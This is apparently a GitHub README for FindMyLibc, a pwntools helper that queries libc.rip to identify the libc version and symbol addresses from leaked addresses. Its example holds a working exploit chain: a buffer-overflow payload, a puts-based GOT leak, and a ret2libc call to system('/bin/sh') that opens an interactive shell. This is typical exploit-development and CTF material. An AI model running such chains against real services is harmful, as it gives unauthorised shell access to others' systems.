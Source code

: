 # FindMyLibc
You're exploiting a binary, you've found an address leak, now you need the libc version  
and most importantly, the addresses of symbols like `system` and `str_bin_sh`.

This tool is the easiest to setup & use!  
**No heavy libc downloading, all remote, 1 simple function call.**

## Disclaimer
This was tested only on 32-bit binary, so it might not work properly on 64-bit binaries.  
Would be updated!

# Setup
```bash
pip install findmylibc
```  
Then use easily:  
```python
from findmylibc import *
...
matching_libc = find_libc(elf, leak_libc_address)
```    

# The `find_libc` parameters
## `elf`:
An object of the class `ELF` from `pwntools`, usually created by calling: 
```python
ELF('binary-name')
```

## `leak_libc_address`:
A function with signature of:  
```python
def my_leak_func(symbol_name_str): ... ->  return leaked_address_integer
```  
You must create this function,  
where the only parameter is of type **string** - the symbol name to leak,  
and the return value is the leaked address as **integer**.

There's another optional argument, see [stop_libs_amount](#the-stop_libs_amount-argument-optional).

# Example
Here's a simple example of an exploit script (see [`.example/example.py`](https://github.com/omrina/FindMyLibc/blob/main/example/example.py)).

### Setup your binary exploit script:
Whatever you need here...
```python
from pwn import *
from FindMyLibc import *

# Setup your binary
elf = ELF("./elf_name")
host = args.HOST or 'localhost'
port = int(args.PORT or 5555)
io = connect(host, port)
```

### Set up our "leak address" function:

```python
# Payload until right before the return address
payload = b'A' * 512 + b'BBBBCCCCDDDD'

# Example function that gets a symbol name and leaks its address from the binary
def leak_libc_address(symbol_name):
    libc_symbol_address = elf.got[symbol_name]
    puts = elf.symbols["puts"]

    io.recvline()
    io.send(payload + p32(puts) + p32(libc_symbol_address))
    received = io.recv()

    return u64(received.ljust(8, b"\x00"))
```
### Now the real deal:
```python
# call `find_libc`, it returns a list of matching libc candidates.
matching_libc = find_libc(elf, leak_libc_address)
chosen_libc = matching_libc[0]

# Each libc candidate comes with the attribute of `base_address`
print("libc base_address at: %s " % hex(chosen_libc['base_address']))

# Everything you need is probably in `syms`,
# a dictionary of ALL the libc symbols: {symbol: calculated_address}
binsh_address = chosen_libc['syms']['str_bin_sh']
system_address = chosen_libc['syms']['system']
print("/bin/sh at: %s" % hex(binsh_address))
print("system at: %s " % hex(system_address))
```

The output from `.example/example.py`:

![image](https://github.com/user-attachments/assets/dfd95d72-e202-4d59-9e44-fcfd4d01eccd)


### What is `chosen_lib`:

![image](https://github.com/user-attachments/assets/06ff78eb-f59b-4ba6-b199-079e0e091781)

### How to use the results:
You would probably need only `syms`, a dict of `{symbol_name_str: calcualted_address_integer}`,  
so continuing the example above, one might use:
```python
# Remember: chosen_libc['syms']['system'] AND chosen_libc['syms']['str_bin_sh']
shell_rop = p32(system_address) + b'EEEE' + p32(binsh_address)
io.send(payload + shell_rop)
io.interactive()
```

# How does it work?
The finder leaks the address of common symbols:  
```python
_common_symbols_to_leak = ['__libc_start_main', 'puts', 'printf', 'gets', 'read', 'write', 'send', 'recv']
```  
Then it makes reqeusts to the public `https://libc.rip/api/find`, with different combination of leaked symbols every time.  

E.g.- we send a request with `{'puts': 'leaked-address-of-puts', 'gets': 'leaked-address-of-gets'}`.  
A response would be a list of matching libc versions metadata (each item is like a part of `chosen_lib` seen earlier).

## The `stop_libs_amount` argument (optional)
The `find_libc` function has a `stop_libs_amount` argument with default of `3`,  
meaning- if we reach 3 matching libc versions, it's enough and we stop searching.  

You can change it if you'd like to:  
```python
matching_libc = find_libc(elf, leak_libc_address, stop_libs_amount=2)
```


